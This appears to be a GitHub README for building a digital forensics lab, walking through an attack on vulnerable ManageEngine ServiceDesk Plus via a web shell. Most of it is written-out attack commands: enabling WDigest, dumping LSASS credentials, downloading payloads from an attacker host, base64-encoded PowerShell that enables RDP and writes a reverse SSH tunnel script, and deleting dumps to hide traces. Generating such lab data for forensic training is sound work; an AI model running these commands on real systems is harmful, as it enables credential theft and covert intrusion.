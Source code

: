 # Building My First DFIR Lab

## Lab Schema

![](LabSchema.png)


## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10
## Planning
- We will be dividing our lab to multiple parts
    - Part 1: Initial Access & Credentials Dumping
    - 

## Let's Go
### - Part 1:

#### a. Applying The Exploit:
![image](https://github.com/user-attachments/assets/d39fde33-273d-403c-9195-8dac52d64db1)

![image](https://github.com/user-attachments/assets/e7563550-22d8-4a1b-b8eb-b9b3761d9678)

#### b. Visiting wbsh.jsp

![image](https://github.com/user-attachments/assets/bb3eb98c-0af0-4dd2-ab0b-e478fed02f31)

#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`

### - Part 2: Lateral Movement & Stealing Data

> Download Employees.xls FROM THE VICTIM


#### a. Download ekern.exe 
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

#### b. Check if RDP is Enabled?
```
Get-Service -Name TermService
```

#### c. Enable RDP using the Encoded Command
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

#### d. Check Again 
```
Get-Service -Name TermService
```
#### e. Write the FXS.bat
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCB2MWN0aW0gLXB3IENAbnRfRDNmM25kIC1SIDEyNy4wLjAuMTo0OTgwMDoxOTIuMTY4LjIwLjE0NzozMzg5IDE5Mi4xNjguMS4yJw0KJGJhdGNoRmlsZVBhdGggPSAnQzpcVXNlcnNcVmljdGltXERvY3VtZW50c1xGWFMuYmF0Jw0KU2V0LUNvbnRlbnQgLVBhdGggJGJhdGNoRmlsZVBhdGggLVZhbHVlICRiYXRjaENvbnRlbnQ=')) | Invoke-Expression}"
```
![image](https://github.com/user-attachments/assets/f9039d8d-dcc6-46b8-b690-e453a6b6c517)


#### f. Execute FXS.bat == Establish SSH Connection
```
powershell.exe C:\Users\Victim\Documents\FXS.bat
```

![image](https://github.com/user-attachments/assets/f0cf2a93-277f-4e95-84c3-2cfce7b07578)


![image](https://github.com/user-attachments/assets/ac46e920-278f-4505-a6c4-7b5a4b35cf29)


#### g. Let's Start The RDP, when doing the RDP we will be Making 3 attemps 

![image](https://github.com/user-attachments/assets/088dc184-72d4-4c3a-b5be-a32cf9abc9a4)

> Now We Are Ready!! Let's Start The Lab...
